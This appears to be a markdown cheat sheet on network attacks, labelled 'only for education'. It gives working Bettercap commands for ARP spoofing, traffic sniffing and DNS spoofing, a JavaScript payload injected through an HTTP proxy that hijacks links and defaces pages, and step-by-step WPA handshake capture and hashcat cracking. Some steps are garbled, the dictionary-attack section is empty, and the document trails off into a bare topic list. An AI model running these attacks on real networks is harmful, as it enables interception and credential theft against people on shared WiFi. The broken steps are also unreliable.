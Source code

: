 # Network-based Attacks
***Note*** - Only for education purpose
- Public networks like hotels, libraries, airports are the most vulnerable
- Anyone can list every device on the network and see the URLs visited
- One can even redirect the traffic to the attacker's page and steal credentials

## Contents
Tools
- Bettercap
- BeEF
- Vulnerability Scanners
  - Nikto – simple and general vuln scanner
  - Skipfish – build a website map and find hidden URLs and files
  - Wapiti – find all vulnerabilities and exploit them from the terminal
  - OWASP-ZAP – all exploitations using a GUI
  - Xsser – super good super specialised XSS
- Network Engineer
  - [SolarPUTTY](http://bit.ly/usesolarputty)
  - [WAN Killer](http://bit.ly/WANkiller)
  - [IP Address Scanner](http://bit.ly/ipscansw)
  - [Network Device Scanner](http://bit.ly/netdevicescanner)
  - [Wifi Heat Map](http://bit.ly/wifiheatmapsw)
  - [Wifi Analyzer](http://bit.ly/wifianalyzersw)
  - [SolarWinds NPM](http://bit.ly/netperfmon)
- OSINT
  - Twint for Twitter
  - Osintgram for Instagram
  - PhoneInfoga for Phone Numbers
- Hacking WiFi Passwords
- References

## [Bettercap](https://www.bettercap.org/)

- Implements MITM attacks

Detect network devices
```
net.probe on
```
List all devices
```
net.show
```
### ARP Spoofing
- Redirects the traffic as `Target → Attacker → Router`
- HTTP websites can directly capture your credentials
```
set arp.spoof.targets <IP>
arp.spoof on
```
### Sniffing
```
net.sniff on
net.sniff off
```
### DNS Spoofing
- Redirects the victim to an attacker controlled page
- Start your attacker server `service apache2 start`
```
set dns.spoof.domains <URL>
dns.spoof on
```
### Redirecting
```js
window.onload = function() {
    console.log("Hacked website");
    anchors = document.getElementsByTagName("a");
    for (var i = 0; i < anchors.length; i++) {
        anchors[i].href = 'https://www.hackthissite.org/'; // redirect all links to this website
    }
    document.write("<h1> You have been hacked </h1>"); // modify contents of the HTTP website entirely
}
```
- Set HTTP Proxy before redirectiong
```set http.proxy.injectjs ./<your-javascript.js>
http.proxy on
```
- Turn off proxy after any changes to the script and back on for the changes to take effect


## [BeEF](https://beefproject.com/)
- The Browser Exploitation Framework used for penetration testing web browsers

## Hacking WiFi passwords

1. Handshake Capture
    - Observe the handshake b/w the device and the router
    - Check the supported interface modes to monitor : `$ iw list`
    - Get name of the adapter : `$ ifconfig`
    - Turn it off : `$ ip link set <adapter-name> down`
    - Set adapter into monitoring mode : `$ sudo <adapter-name> set monitor control`
    - Turn it back on : `$ ip link set <adapter-name> up`
    - Make sure nothing intereferes with us listening
      - Stop Network Manager : `$ sudo systemctl stop NetworkManager`
      - Kill any WiFi managers : `$ sudo airmon-ng check kill`
    - Listen to WiFi network for router's BSSID using `airodump-ng` (A wireless packet capture tools for `aircrack-ng`)
      - `sudo airodump-ng <adapter-name>`
    - Capturing handshake
      - `sudo airodump-ng <adapter-name> -w wpa-capture --bssid <router-bssid> -c 1`
      - This captures the handshake to `cap` files containing password hashes
    - Attacks
      - Brute Force Attack via Hashcat
        - `hashcat` is an advanced CPU-based password recovery utility
        - Convert the `cap` to `pcap` : `editcap -F pcap <cap-file> <output-file>.pcap`
        - Transform `pcap` to hashcat format : `hcxpcapngtool -o hash.hc22000 <output-file>.pcap`
        - Attack Commad : `hashcat -m 22000 hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d` --show
        - A simple 10 digit password takes around 11 days on an i7
      - Dictionary Attack
        - 
    
2. Deauthenitication Attack
  - Force the handshake by knocking the devide off the router
3. RSN Attack
  - Capture the packets and brute force the router


Capture wifi handshake 
Crack wifi password using hashcat
Hashcat explained
Password hash cracking
Brute force password
Dictionary attack on password
Password lists from the darkweb
Rule based attack
Hashcat default rules
Hashcat best rules
Wifi deauthentication attack
RSN wifi attack
GCP gpus to crack passwords


#### References
YouTube
- [hacking every device on wifi / ethernet networks 1 #wifi #hack #MITM](https://www.youtube.com/watch?v=2J3idGxCbuc)
- [hacking every device on wifi / ethernet networks 2 #wifi #hack #MITM #javascript](https://www.youtube.com/watch?v=ExxxhioK1Hk)
- [3 wifi attacks and speed hash cracking with cloud GPUs](https://www.youtube.com/watch?v=MrWAJEQJZbk)
